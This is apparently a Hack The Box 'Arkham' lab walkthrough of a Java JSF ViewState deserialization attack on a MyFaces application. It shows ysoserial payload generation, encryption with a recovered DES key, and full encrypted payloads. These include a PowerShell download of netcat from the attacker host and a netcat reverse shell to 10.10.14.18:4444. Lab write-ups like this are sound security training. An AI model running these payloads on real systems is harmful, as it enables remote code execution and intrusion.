






# 15 - Tomcat


# Index page


# userSubscribe.faces


# Post request to userSubscribe.faces


javax.faces.ViewState part is interesting. The data is base64 and url encoded and it is a little long. It could be a session token. Sometimes servers prefer client side session storage.




it doesn't mean anything to me, I believe it's encrypted.

According to [hacktricks.xyz](https://book.hacktricks.xyz/pentesting-web/deserialization/java-jsf-viewstate-.faces-deserialization) it is a serialized java object  and it is encrypted.

MyFaces use DES algorithm and fortunately we have a key.


# Exploit

[ysoserial](https://github.com/frohoff/ysoserial) is a proof of concept tool for generating payloads. We will craft our payload with ysoserial and then encrypt it with the secret key we found earlier to prepare a deserialization attack payload.

```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/arkham/exploit]
└──╼ $ java -jar ysoserial.jar CommonsCollections5 "ping -n 1 10.10.14.18" > payload
```

Myfaces1 and Myfaces2 are the other payload options, but I couldn't get them working. We will proceed with `CommonsCollections5`


# [encrypt.py](https://book.hacktricks.xyz/pentesting-web/deserialization/java-jsf-viewstate-.faces-deserialization#custom-encryption)
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/arkham/exploit]                                                                                                                                          
└──╼ $ python3 encrypt.py payload out
[+] Encrypting payload                                                                         
  [!] Key : JsF9876-

[+] Creating HMAC signature
[+] Appending signature to the encrypted payload

[*] Final payload : EpflyBhnLkAS%2FcI6nexhMqH%2FtMmK%2Be%2BoOSB%2BiGGStMf3iTfxuPA5PGNGhz6HO2nAZeudvUiuJvqiPb69whWbK2%2FEFMRkmhTDywwZ5O1KTeC46zdFOsXfLYOq%2BMjjY%2BtkAaxKM5Zb%2FAOsYdZvfY8e1sab
Beszd3s9CFB6%2FcOtDM9T%2FkJvYUGrCGusU12qJMqtQ33oFyJ2zgfwKr6XAtXU8s2sqIwM66TOVbzyfFEXr89jyqxSUY3hdk46BemAlloyNdVj1CHfhfutpaLVXVs6TdhLQdtrBWSatNg0jB4HMgE2iUCVwZELYozwyhTxaX7VvLnxg9ifSPXdj0NDvu
qW319UjR3ViE60pA%2FlPN0LvNrGmDogApwtcbcSaxLi2tXrMJBp6EDfQHN%2FSwdIuFEqkIskbuo%2FBfq5cQixrjathBAbSR%2BvI72TSDzIIIeajb3yOCCi%2BbO6GiwMDujIaQZWfBp3bgVjEd8Yl2JeA%2Bfvzl%2B82RDEj0xtcHwClZ2MoBNDGn
QzEH9emreYb01AnL1%2F50QkCgt8xowDjtGDAduLpu24Ak0aqmjXxkK4vqWZn%2FiQMAOaKY25BdFpW2fDgeBvE68Izbftt%2FnTpiRl7A%2BDFCJIJsb0k7U0RIbLZyqa7rwkBUIEqvBr0Lu5TRVFLnjWznBw4GQzEjQDaVtnw4HgbxOvCM237bf506Yk
ZewPgxQivpKQvSp%2B9b84bYI5eT9LOEGx3wgnLjKDL7%2F7pR3gFqOEfB4mPz8DdCY4l6Z87IAbJckpMw%2F916Ge8bKYIGnzRAZoPI0pyxYnYrEOCOx2yHFUVtzI5V2yXGx9CFKq8TzKwmnZ7FFzKdBOOgXpgJZaMjXVY9Qh34X7raWi1V1bOk2WDtc7
47vVRVEpV3KxWNjSqDcslWV7CoPx4jx9IYA2i8XOBF%2BvkXOGhyDafG04vyto6kvmPn4pCve1W5gD42eHLpS0Nbklh6nxppUBzClq6FxMOd3NcK9ty0Ki4udfDHAi0Kvskzjm1bmyNkYAY15zKFy2nJQs3pkGa77Ht8zKAIEY9lEOrVQEEsckIi%2BMsG
5NDhNcA5Lu%2B09Jk1Di1VpvQjQwgwvMH%2FQ8goFN7ywqDoUJZXmh9vO8EuEfBHhmLIb%2FmoAYqIgWYXTuYT3iCGRTU95cyUThKed8Y7%2BvpJUKPFlaQEvSDoJC1L%2BUtxbFBKGU0tDzCHaLnkKnfN7XNrQZJIWg%2FYwKxcFPSZNQ4tVab%2BZOfU
LzxCLNSDLyRh1q1cPK6pIgzb5rv9K84ptdW%2FyGJ0Eu84bKUhVCJ3AD9Zpkr7xx4SlPJt%2BXnia7jcNbZOe2uEpfZ6p52Sq92mvK6p15vUr0vZ7DkPbdky4x3i2CZLfs3ABDYpM%2BDUvYsL%2Fw3LayoJ4NbLkgBw7nNrPJom4mI9YO4ew%2BhLybFN
xvvsjITIzvta0ltoxbIOYgXanGkNpRg3SNhnYq2iMc7xfxMd7FLRB8WxcW%2BCdT%2B3b4cqJfn8Zj1wv%2BvhF%2FkqPIExfwRaut%2Fb29Pjm3ecuihjrYHCAm9zC9g7UMCfdxFk3lDzU04FmSmF1FllmyJf9eg1oS6vjGDXN4Fxd8H5uRqvMsIcIlVG
bJ0IBy9%2B2%2FcyEp1XvK8n5Gr%2BYtr%2BK9dNWLrWMDX2LxHe%2FhKqDzuhGbuUoHkHXZOCO5Iga5she%2FyXoaJTQ1sIBsVm7CWwc1ba594Do3xzsPUCPmunYgU8b2uaAGTXx0zhNYxFD%2BimMBNwFcvIsi3CFEMes%3D

[*] Saved to : out
```




# Code execution succeeds



# Shell

https://eternallybored.org/misc/netcat/

```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/arkham/exploit]
└──╼ $ java -jar ysoserial.jar CommonsCollections5 "cmd /c powershell IWR -Uri http://10.10.14.18/nc.exe -OutFile c:\\Windows\\TEMP\\nc.exe" > payload;python3 encrypt.py payload out;

[+] Encrypting payload                                                                                                                                                                        
  [!] Key : JsF9876-                                                                                                                                                                          
                                                                                                                                                                                              
[+] Creating HMAC signature                                                                                                                                                                   
[+] Appending signature to the encrypted payload                                                                                                                                              
                                                                                                                                                                                              
[*] Final payload : o4swGdxTZXw1mKtPxFkjUuWrKOBMVnhQ7RbMizpCb4xVYti30eaLecyiLLU7plNhjPFRnShy4IlIzxo0JHimBY3Uq1igjemgy0Ki4udfDHCBAJC2Yt%2BEq3hlEwGdEWrah3tqcdo5Gxzenm%2BTobetH0%2BaG8%2BiCEB1RbCm7b%2FRwuOINGcnD%2BFO3DfRKu9gMF%2Bhys2vYzpsGEyHK3knl7tEaywlBVCuHcXMqHLkcdxxT%2FxmSmtDFG85aQTVagEZSOEEX9bCEH73rYHKIdkiMmo3tRSv0aFcuTCzo9ywZEOE7bULbrBQyiDX34vkaoTgGwZx5xiJxcuYu0CBGPZRDq1UBGH1QEaZ391dmKFPiBhIqgml%2FErcnLpXhN2CNsbBu9HHKSuy0lTdaYJifqCf5zOXppnKQiTkInD9AN%2BIjrIKoKhLslblPlDOJTrY6IWKCYEH9ZL8tl0EWKQbiDEBanGkxqkFjjIIqXZFoV%2BTjkS1FnVO%2FoHWBB6y1rXJo3U1C5yWD2YmTWm4GDisEHwUAFbDTHvZSVfjA0tLKeDOxOM%2F8vhiJvs7XB%2FiL0xioZBCDhyyogM5ilMzKrxi25pKdV7qKFYgBIpi82HZJBiyt0w%2FfqlS6hjo07yHrHeKgVe5KiMmPRtt6h4buRWMlkPun2jgm259cO2loSVMSxjNu9%2FCCnMkGLK3TD9%2BqV2YP5mtCOlGyIG92TCIcaFw8tZsfH14qFQuvLXlje%2BWBoE1cgT2OzpqLZ5YnNLaBNtP8g%2FGkIl6LoObMsC3BpXUjNHX%2Fl6ZpFrpHPYqF04R1vdMLtxFTMVOrQbaoakmK3uiTmx6KyVVK59aLaXuOysuH%2BsV3gx3v3PoFcpnc1%2BAJTHWKqHfCy2li76ST4pm%2FNwg%2FTiZmJ7Y2965FPpV2Dw1mICArOvAOCf9fzZiZncI%2BCoX%2FOuaRilAYhWNKe8XzdQP6NjTNMEAoU8qpv%2FvNvILq22We0wQ1mUW3OrpauOZzU7%2BmQoL%2BGnNtOpmFx%2FzHz9CO1Qw3PfdQHYhQvw4tg%2FW90wu3EVMxVnQ5zD2tQV6GrCAJFCMnfi8x%2Bf6%2BnW9kb%2F3KJjeLP9EaVtnw4HgbxOvCM237bf506YkZewPgxQiLewUhIRMklMJnDnzAWGDt7FI7YRaUwB8JGXyetfsWfwktvElTU8G%2Fq7MLUp4%2BGPRDBvo6SMhFsfpnWDv02QaeNaSLMlE9boIJFbYlwyeLs9OWTCIP4cwrVmtcdeHaJalFuas%2BcLlmoyCpiYNGomoF2fGsKSBlO02H5aD7eIK4KEmO7jZE%2FsAoHMWWJfxo23t44S4ahSOeHfvlzJqhV2WT62diMizXDhDlWLlH5eRWvOufroUtk3jPS%2B%2F%2B6Ud4Bajai2yaRfDxHbTJgZ6IWsFXJmYIJXEh5ODaSShdwisWrLMFqobrL%2B3iOMkCTIPHpwTC4k4WjyVGoC3EmsS4trV68wenfb4asCPSZABGwnwfoqx6CHK%2BPGB13aRjo4KzHOVh7W5RxqOnjWWACJFXGhBny4XW4CootugK59aLaXuOyv6AM6KeF8cfH0GU8FiZ%2BF0wy6hHdRzv29OOgXpgJZaMjXVY9Qh34X7raWi1V1bOk3wI5mPW2oCG%2FHiPH0hgDaLJD%2F5rWumATBRhPfQdMukPUuvh7aBrYKhTjoF6YCWWjI11WPUId%2BF%2B62lotVdWzpNlg7XO%2BO71UXIulcb15uC4Uo%2FmVX%2BF55hhstnKpruvCRn1%2FE2U%2BSHSUwJwYQalMFkB3EYe3Bg0twUHB0FLdRlgk%2B1LfoOx%2BOAGABHbKLruPQnSgSaOr0QO7fs3ABDYpM%2B0brsRYoVq%2FxZrXHXh2iWpRbmrPnC5ZqMgqYmDRqJqBegTWtulqHIbfmX3cwmZtK73nCNfCh4bR8nU8ph%2B9dFQFQm3TB92LYOU%2Bo9ImRGT5ZxHsqO7r9vsYEY9lEOrVQEonBeV1772fxzAWY30P6lQjx7QKzqFpGw7VVu9x6xj4HqyzMw3srhBWpB1evb%2F2cj2VJfV2Ik%2Fe1XeDhxd98FCKdtuwD%2FhfhKKwyMHBLd%2B%2BTRSti5%2BPjgedH8VrYCDw%2Bh7TXbFuuzmic0Ejp%2FMdRQ2lgM7A1Zk2tN7LvOGYXm5vai2%2Fp9KNzcb82%2BWwUxFUNdG%2Fr%2B91Skv9JVChFgo1kBKZ5DSG9GVW0c93lwaDPZR8m2MdKuCGEIGysMjBwS3fvkWX6kL5w8G98g8evxDbfYkHzyF14jnr2kMvA1HZRyD2wcvsnF03HnathuuAfsXFi9nSS%2FwbSz1fz4k0TLI7Jwpbv6aAGFYU9IId4BaMaICpD4zmUdsKF%2FchdWUs7E65By387U2Ejeqn%2FY3UAanW9XVGnW1aWk9nG1iLSIviO15BJYS2423DKh2itxBdEkoL7a2k0YgPMLX%2BRHIWBDkQmo20e5chNrlh5CeGedkXmBKTrdTsVrTgxw9h%2BdBxhJmaC9NQcWFQSnonwYTxGphNBy6eQvVXkHozN%2F%2FMqFo0c8B6liwqBMfirntRYsiD6g6N7QpDlEgB77JY0qM%2BA286LIQXdlkG%2BLs59ls06cb795f%2FFPtS36DsfjgFTsXhaoJx%2BxyCKWo8mqMtvq9wKQlRYyfYAppcVMyzcxId4BaMaICpAKhETEr5dJl2cpK8KB00t3hvFxNTDnA1UcpVjNDtF6SRL9wjqd7GEyyvenTpPMn2lT8Yy%2BSOLmO%2B%2FqdeM3VEUmdh6slmRTw1cx%2B5106Li%2BXSeiYObQlpcKTK6xx8dBEixsFtN%2BbK1YXPXY5JjkmNKNb54flQOiKuehQoDO2EZAZQ1lGx0%3D

[*] Saved to : out

┌─[user@parrot]─[10.10.14.18]─[~/htb/arkham/exploit]
└──╼ $ java -jar ysoserial.jar CommonsCollections5 "cmd /c c:\\Windows\\TEMP\\nc.exe 10.10.14.18 4444 -e powershell.exe" > payload;python3 encrypt.py payload out;cat out

[+] Encrypting payload
  [!] Key : JsF9876-

[+] Creating HMAC signature
[+] Appending signature to the encrypted payload

[*] Final payload : o4swGdxTZXw1mKtPxFkjUuWrKOBMVnhQ7RbMizpCb4xVYti30eaLecyiLLU7plNhjPFRnShy4IlIzxo0JHimBY3Uq1igjemgy0Ki4udfDHCBAJC2Yt%2BEq3hlEwGdEWrah3tqcdo5Gxzenm%2BTobetH0%2BaG8%2BiCEB1RbCm7b%2FRwuOINGcnD%2BFO3DfRKu9gMF%2Bhys2vYzpsGEyHK3knl7tEaywlBVCuHcXMqHLkcdxxT%2FxmSmtDFG85aQTVagEZSOEEX9bCEH73rYHKIdkiMmo3tRSv0aFcuTCzo9ywZEOE7bULbrBQyiDX34vkaoTgGwZx5xiJxcuYu0CBGPZRDq1UBGH1QEaZ391dmKFPiBhIqgml%2FErcnLpXhN2CNsbBu9HHKSuy0lTdaYJifqCf5zOXppnKQiTkInD9AN%2BIjrIKoKhLslblPlDOJTrY6IWKCYEH9ZL8tl0EWKQbiDEBanGkxqkFjjIIqXZFoV%2BTjkS1FnVO%2FoHWBB6y1rXJo3U1C5yWD2YmTWm4GDisEHwUAFbDTHvZSVfjA0tLKeDOxOM%2F8vhiJvs7XB%2FiL0xioZBCDhyyogM5ilMzKrxi25pKdV7qKFYgBIpi82HZJBiyt0w%2FfqlS6hjo07yHrHeKgVe5KiMmPRtt6h4buRWMlkPun2jgm259cO2loSVMSxjNu9%2FCCnMkGLK3TD9%2BqV2YP5mtCOlGyIG92TCIcaFw8tZsfH14qFQuvLXlje%2BWBoE1cgT2OzpqLZ5YnNLaBNtP8g%2FGkIl6LoObMsC3BpXUjNHX%2Fl6ZpFrpHPYqF04R1vdMLtxFTMVOrQbaoakmK3uiTmx6KyVVK59aLaXuOysuH%2BsV3gx3v3PoFcpnc1%2BAJTHWKqHfCy2li76ST4pm%2FNwg%2FTiZmJ7Y2965FPpV2Dw1mICArOvAOCf9fzZiZncI%2BCoX%2FOuaRilAYhWNKe8XzdQP6NjTNMEAoU8qpv%2FvNvILq22We0wQ1mUW3OrpauOZzU7%2BmQoL%2BGnNtOpmFx%2FzHz9CO1Qw3PfdQHYhQvw4tg%2FW90wu3EVMxVnQ5zD2tQV6GrCAJFCMnfi8x%2Bf6%2BnW9kb%2F3KJjeLP9EaVtnw4HgbxOvCM237bf506YkZewPgxQiLewUhIRMklMJnDnzAWGDt7FI7YRaUwB8JGXyetfsWfwktvElTU8G%2Fq7MLUp4%2BGPRDBvo6SMhFsfpnWDv02QaeNaSLMlE9boIJFbYlwyeLs9OWTCIP4cwrVmtcdeHaJalFuas%2BcLlmoyCpiYNGomoF2fGsKSBlO02H5aD7eIK4KEmO7jZE%2FsAoHMWWJfxo23t44S4ahSOeHfvlzJqhV2WT62diMizXDhDlWLlH5eRWvOufroUtk3jPS%2B%2F%2B6Ud4Bajai2yaRfDxHbTJgZ6IWsFXJmYIJXEh5ODaSShdwisWrLMFqobrL%2B3iOMkCTIPHpwTC4k4WjyVGoC3EmsS4trV68wenfb4asCPSZABGwnwfoqx6CHK%2BPGB13aRjo4KzHOVh7W5RxqOnjWWACJFXGhBny4XW4CootugK59aLaXuOyv6AM6KeF8cfH0GU8FiZ%2BF0wy6hHdRzv29OOgXpgJZaMjXVY9Qh34X7raWi1V1bOk3wI5mPW2oCG%2FHiPH0hgDaLJD%2F5rWumATBRhPfQdMukPUuvh7aBrYKhTjoF6YCWWjI11WPUId%2BF%2B62lotVdWzpNlg7XO%2BO71UXIulcb15uC4Uo%2FmVX%2BF55hhstnKpruvCRn1%2FE2U%2BSHSUwJwYQalMFkB3EYe3Bg0twUHB0FLdRlgk%2B1LfoOx%2BOAGABHbKLruPQnSgSaOr0QO7fs3ABDYpM%2B0brsRYoVq%2FxZrXHXh2iWpRbmrPnC5ZqMgqYmDRqJqBegTWtulqHIbfmX3cwmZtK73nCNfCh4bR8nU8ph%2B9dFQFQm3TB92LYOU%2Bo9ImRGT5ZxHsqO7r9vsYEY9lEOrVQEonBeV1772fxzAWY30P6lQjx7QKzqFpGw7VVu9x62xj4HqyzMw3srhBWpB1evb%2F2cj2VJfV2Ik%2Fe1XeDhxd98FCKdtuwD%2FhfhKKwyMHBLd%2B%2BTRSti5%2BPjgedH8VrYCDw%2Bh7TXbFuuzmic0Ejp%2FMdRQ2lgM7A1Zk2tN7LvOGYXm5vai2%2Fp9KNzcb82%2BWwUxFUNdG%2Fr%2B91Skv9JVChFgo1kBKZ5DSG9GVW0c93lwaDPZR8m2MdKuCGEIGysMjBwS3fvkWX6kL5w8G98g8evxDbfYkHzyF14jnr2kMvA1HZRyD2wcvsnF03HnathuuAfsXFi9nSS%2FwbSz1fz4k0TLI7Jwpbv6aAGFYU9IId4BaMaICpD4zmUdsKF%2FchdWUs7E65By387U2Ejeqn%2FY3UAanW9XVGnW1aWk9nG1iLSIviO15BJYS2423DKh2itxBdEkoL7a2k0YgPMLX%2BSkKU1Tkk5cLNhAdqYsxjwBAi8AzJmOf6WPA6rxWRpfFK7qgdLJgFqh5F0L5psEKOR4admLaz%2B76eI4HL0jQbitD4gufGyqCkXdXbT%2BM8quVebX6GcW8HJEeZgmMEbsHDHnBbL0nWTPSU9Jk1Di1VpvY33WqWsolaeQjBAHzue6yDR4fkt%2FsUzOfuAUYU0pUCJPSZNQ4tVab01PaRGNI1ez6kGGJXW35WkTZHxZREWe6OABC9bGYr9UOZtlczIfFnnMS%2FcxbwdwA8FWyx1s7bIoN9lUsXIZ8W14wyJDQkMdMFNa1N%2FQvw9Lp1b7o3vcYV5Rl%2BSTLfcFRk7uQHLmQlm1lPviM9ofLpCkklbzVPUbZs7r43c%3D

[*] Saved to : out
```

The first command downloads netcat and the second runs the downloaded netcat to initiate a reverse shell connection.


